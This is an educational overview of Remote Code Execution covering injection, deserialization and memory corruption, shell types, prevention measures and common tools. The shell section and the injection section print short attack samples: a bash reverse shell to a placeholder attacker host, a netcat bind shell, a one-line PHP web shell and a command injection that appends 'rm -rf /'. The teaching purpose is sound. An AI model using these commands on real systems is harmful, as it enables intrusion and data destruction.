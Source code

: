 ## Remote Code Execution (RCE)
Remote Code Execution (RCE) is **a critical security vulnerability that allows an attacker to execute arbitrary code on a remote machine, typically with the privileges of the exploited application or service**. Once RCE is achieved, attackers often escalate their privileges or establish persistent access by getting a shell on the target system.

## 1. How RCE Works
RCE exploits vulnerabilities in applications, services, or protocols to execute code provided by the attacker. Common vectors include:
  - **Input Validation Issues**
    - Unvalidated or unsanitized user input is directly processed as executable code.
    - Example: Command injection or deserialization vulnerabilities.
  - **Software Bugs**
    - Exploiting flaws in software logic or memory management.
    - Example: Buffer overflows or use-after-free vulnerabilities.
  - **Configuration Weaknesses**
    - Misconfigured systems or applications allowing unintended code execution.
    - Example: Misconfigured web servers executing user-uploaded scripts.

## 2. Techniques to Achieve RCE
### a. Injection Vulnerabilities
  - **Command Injection**
    - Injecting malicious commands into a vulnerable system that executes them.
    - Example:
```
GET /ping?ip=127.0.0.1;rm -rf / HTTP/1.1
```
  - **SQL Injection with Execution**
    - Exploiting database functions to execute system commands.
    - Example: xp_cmdshell in SQL Server.

### b. Deserialization Attacks
  - Definition: Sending malicious serialized objects to applications that deserialize data insecurely.
  - Example:
    - Injecting payloads into Java or Python serialized objects to execute commands.

### c. Exploiting Memory Corruption
  - **Buffer Overflow**
    - Overwriting memory locations to execute arbitrary code.
  - **Return-Oriented Programming (ROP)**
    - Using existing executable code (gadgets) in memory to achieve execution.

### d. Exploiting Web Application Vulnerabilities
  - **File Uploads**
    - Uploading malicious scripts to servers and accessing them via a browser.
  - **Remote File Inclusion (RFI)**
    - Including external malicious scripts via unsanitized URLs.

### e. Exploiting Remote Services
  - **Exposed APIs**
    - Sending payloads to vulnerable APIs that execute code.
  - **Weak Authentication**
    - Exploiting poorly protected admin panels or services to execute commands.

## 3. Getting Shells
Once RCE is achieved, attackers often aim to establish a shell for interactive access to the target system.

### a. Reverse Shell
  - Definition: A shell that connects back to the attacker’s machine.
  - Mechanism:
    - The **attacker sets up a listener** on their machine.
    - The payload on the victim’s machine opens a connection to the attacker.
  - Example (Bash):
```
bash -i >& /dev/tcp/attacker_ip/port 0>&1
```

### b. Bind Shell
  - Definition: A shell that **listens on a port on the target machine, allowing the attacker to connect** to it.
  - Mechanism:
    - The target machine opens a port and binds the shell to it.
    - **The attacker connects to this port** to access the shell.
  - Example (Netcat):
```
nc -lvp 4444 -e /bin/bash
```

### c. Web Shell
  - Definition: A malicious script uploaded to a web server that provides remote command execution via HTTP requests.
  - Example (PHP):
```
<?php echo shell_exec($_GET['cmd']); ?>
```

## 4. Prevention of RCE and Shell Exploits
### a. Input Validation and Sanitization
  - **Validate and sanitize all user inputs**, especially those interacting with system commands or file paths.
  - Example: Use parameterized queries in SQL to prevent SQL injection.

### b. Secure Coding Practices
  - **Avoid insecure functions** (e.g., eval(), exec(), system()).
  - Use safer alternatives or libraries for handling external processes.

### c. Patch Management
  - **Regularly update and patch** software to fix known vulnerabilities.

### d. Access Controls
  - **Restrict access** to sensitive services and endpoints.
  - Use strong authentication for administrative interfaces.

### e. Configure Systems Securely
  - **Disable unused features or functions** (e.g., xp_cmdshell in SQL Server).
  - Set appropriate file permissions to prevent unauthorized execution.

### f. Use Security Tools
  - **Web Application Firewalls (WAFs)**
    - Block malicious payloads targeting web applications.
  - **Endpoint Detection and Response (EDR)**
    - Monitor and detect malicious activity on endpoints.
  - **Intrusion Detection Systems (IDS)**
    - Identify and alert on suspicious behavior, such as unexpected reverse shell activity.

### g. Segmentation and Least Privilege
  - **Isolate critical systems** to limit the impact of RCE.
  - Ensure processes run with the **minimum privileges** needed.

## 5. Tools Used by Attackers and Defenders

### a. Tools for Exploitation
  - **Metasploit**
    - A framework for developing and executing exploits.
  - **Netcat**
    - A utility for reverse and bind shells.
  - **Cobalt Strike**
    - A commercial tool often used in penetration testing (and by attackers).

## b. Tools for Prevention and Detection
  - **Snort/Suricata**
    - **Network-based IDS/IPS** for detecting malicious traffic.
  - **OSQuery**
    - **Monitors system** behavior to identify abnormal processes.
  - **SIEM Solutions**
    - **Aggregates logs and alerts to detect RCE and shell activity**.

## 6. Summary

| Aspect | Details |
| ------ | ------- |
| What Is RCE? | A vulnerability allowing execution of arbitrary code on a remote system. |
| Common Techniques | Command injection, deserialization, memory corruption, and file uploads. |
| Shell Types | Reverse shell, bind shell, web shell. |
| Prevention Strategies | Input validation, secure coding, patch management, and access controls. |
| Key Tools | Metasploit, Netcat, WAFs, IDS, EDR. |

**Remote Code Execution (RCE) is one of the most critical and dangerous vulnerabilities, often serving as a gateway to more severe attacks like data breaches or ransomware deployment**. By understanding how RCE works, including its techniques and preventive measures, organizations can significantly enhance their defenses against these threats and safeguard their systems from exploitation.